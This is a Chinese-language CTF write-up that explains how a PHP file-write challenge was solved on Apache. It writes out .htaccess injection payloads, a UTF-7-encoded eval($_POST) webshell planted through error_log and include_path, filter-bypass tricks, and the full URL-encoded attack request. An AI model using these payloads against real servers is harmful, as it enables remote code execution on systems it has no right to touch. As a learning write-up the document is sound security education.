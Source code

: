 整个代码的逻辑也比较简单，首先删除当前目录下非index.php的文件，然后 `include_once("fl3g.php");`，之后获取filename和content参数的值，并将content写入filename指定的文件中。其中对filename和content都有过滤，要求content中不能有on、html等关键字，且filename不能匹配到 `a-z` 和点号 `.` 以外的字符。

这道题因为看到file_put_content和unlink自然想到了条件竞争写shell，但是测试过程虽然能够写进.php文件但是不解析。

并且由于题目服务器中间件为 Apache，因此想到了传 .htaceess 利用自定义错误文件写Webshell。但我们还需要解决一下问题。

**（1）使 .htaccess 生效**

如果我们直接上传.htaccess文件，由于我们写入的内容会被自动在末尾加上“\nJust one chance”，所以会使我们的.htaccess文件不生效，出现响应500的问题。为了时我们写入的.htaccess文件生效，我们要采用 `\` 的方式将换行符转义成普通字符，然后用 `#` 来注释单行了，即：

```
......
# \\nJust one chance
```

这样我们写入上传的 .htaccess 文件就能生效了。

**（2）include_path**

在题目的代码中有一处 `include_once("fl3g.php");`，但是当我们访问fl3g.php文件时却发现该文件并不存在，这里便用到了php.ini中的include_path选项。

include_path可以用来设置include()或require()函数包含文件的参考目录路径，也就是说当使用include()或require()函数包含文件的时候，程序首先以include_path设置的路径作为参考点去找文件，如果找不到，则以程序自身所在的路径为参考点去找所要的文件，如果都找不到，则出错，那么我们就可以通过修改它来控制include的路径，那么如果我们能够在其它目录写入同名的fl3g.php让其包含，那么就能够getshell，并且可以使fl3g.php文件不被删除。

**（3）指定目录写文件（error_log）**

前面我们已经了解了，error_log 可以将 PHP 运行报错的记录写到指定文件中，利用这一点我们可以写Webshell。 但是如何触发报错呢？这就是为什么代码中写了一处不存在的fl3g.php的原因。我们可以将include_path的内容设置成payload的内容，这时访问页面，页面尝试将 payload 作为一个路径去访问时就会因为找不到fl3g.php而报错，并将报错记录在指定的错误文件中。

但是前面也说了，当我们传递 PHP 的 payload 时，因为我们传过去的内容会经过 html 编码，所以我们需要用 UTF-7 来绕过：

```
php_value include_path "+ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-"
php_value error_log /tmp/fl3g.php
# \
```

解题过程如下。
- **第一步：写入 .htaccess error_log 相关的配置，将 payload 写入目标文件**
将上述内容进行url编码，然后构造 url 并执行：

```
/index.php?filename=.htaccess&amp;content=php_value%20include_path%20%22%2BADw%3Fphp%20eval(%2BACQAXw-POST%2BAFs-whoami%2BAF0)%2BADs%3F%2BAD4-%22%0Aphp_value%20error_log%20%2Ftmp%2Ffl3g.php%0A%23%20%5C
```

[![](https://p0.ssl.qhimg.com/t0118e3393975700e4b.png)](https://p0.ssl.qhimg.com/t0118e3393975700e4b.png)
- **第二步：访问 index.php 触发报错留下 error_log**
- **第三步：写入 .htaccess 新的配置，将 include_path 选项设定为刚才生成的fl3g.php的目录,并配置解析的编码为 UTF-7**
```
php_value include_path "/tmp"
php_fl\    # 这里使用\加换行的方式绕过对"flag"的过滤, 即php_flag zend.multibyte 1
ag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```
